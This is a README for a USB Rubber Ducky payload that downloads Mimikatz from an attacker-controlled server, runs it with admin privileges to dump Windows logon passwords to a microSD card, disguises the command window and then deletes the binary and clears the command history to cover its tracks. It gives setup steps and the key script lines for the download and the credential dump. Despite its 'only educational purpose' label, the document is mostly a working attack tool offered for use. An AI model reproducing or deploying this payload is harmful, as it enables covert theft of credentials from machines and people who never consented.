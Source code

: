 ***only educational purpose***

# Mimikatz payload
This Mimikatz payload is an update of <a href="https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payload---mimikatz-payload">redmeatuk's payload</a>.

This script download <a href='https://github.com/ParrotSec/mimikatz'>Mimikatz.exe</a> then execute it, and save all the results in a .txt file on the microSD card.

## Setup the Rubber Ducky : 
1. First, you need to flash the Rubber Ducky with twin duck firmware. <a href='https://youtu.be/z5UUTUmGQlY?t=935'> Here is the hak5 video where Darren shows how to do it.</a>
2. Then you have to adapt the script for your needs, for example, you have to put your own server name with mimikatz.exe in it and you have to change MicroSD letter (E:, G:, etc..).    
   ```
   21.STRING powershell (new-object System.Net.WebClient).DownloadFile('http://<your servername>/mimikatz.exe',[...])
                                                                                     ^
   26.STRING %TEMP%\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" >> G:\mimikatz_output.txt
                                                                                         ^
   ```
3. And, for finish, you have to encode the script and put it in your MicroSD card

## How the script work, in details

In a ***first*** time, the script **waits** 3 sec before doing things to let the computer **recognize** the Rubber Ducky as a keyboard.

In a ***second*** time, the script **launch** a cmd with admin privileges and **change** the theme and the size of the cmd to appear like a more _friendly GUI_ application.

In a ***third*** time, the script **Download and execute** mimizatz and **save the results** in a text file named mimikatz_output.txt

And in a ***final*** time, the script **covers our tracks** by deleting mimizatz.exe and clearing the command history

TADA


you can ask me if you need help or something about.
Good Day !

